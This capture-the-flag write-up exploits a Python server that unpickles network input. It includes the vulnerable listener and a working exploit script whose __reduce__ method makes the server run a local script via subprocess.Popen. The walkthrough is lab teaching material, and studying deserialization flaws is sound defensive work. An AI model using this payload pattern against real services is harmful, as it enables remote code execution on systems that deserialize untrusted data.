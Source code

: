 ```python
skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
    clnt, addr = skt.accept()

    if(os.fork() == 0):
        clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
        server(clnt)
        exit(1)
```
    
> pickle.loads(string): read a pickled object hierarchy from a string. Characters in the string past the pickled object’s representation are ignored. The pickle module is not intended to be secure against erroneous or maliciously constructed data.
> Pickle allows arbitrary objects to declare how they should be pickled by defining a __reduce__ method, which should return a tuple describing how to reconstruct this object on unpacking. That tuple should just contain a callable and a tuple of arguments to call that callable on. Each of these pieces will be pickled separately, and then on unpickling, the callable will be called on the provided arguments to construct the new object.

1. We can see that our input will be passed unsanitized to a `pickle.loads()` instruction. After a quick research it is clear that pickle is vulnerable to crafted inputs because it will call whatever will be passed to it. That's what we want to exploit.
2. The command to be run is pretty simple, and it's saved in a bash file that is called flag17 and that has executable permissions (`chmod +x`):

    ```bash
    #!/bin/bash
    /bin/getflag >> /tmp/flag17.out
    ```

3. To be successful in our exploit we have to rewrite the `__reduce__` method so that when invoked it will run the flag17 script for us. Also, we want our method to be sent to the local server so that it will actually execute. For this we write a small python program that implements `__reduce__`, opens a socket connection to the server and sends our specially crafted object. Remember to not call this file pickly.py or any name that could cause confusion with libraries.

    ```python
    import pickle
    import subprocess
    import socket

    class Exploit(object):

        def __reduce__(self):
            return(subprocess.Popen, (('/tmp/flag17',),))

    host = "127.0.0.1"
    port = 10007

    obj = pickle.dumps(Exploit())

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(obj)
    s.close()
    ```
4. Execute the python file, and after succesfully sending our packet we can check in `/tmp/flag17.out` and we will find that `getflag` has been successfully executed for us.
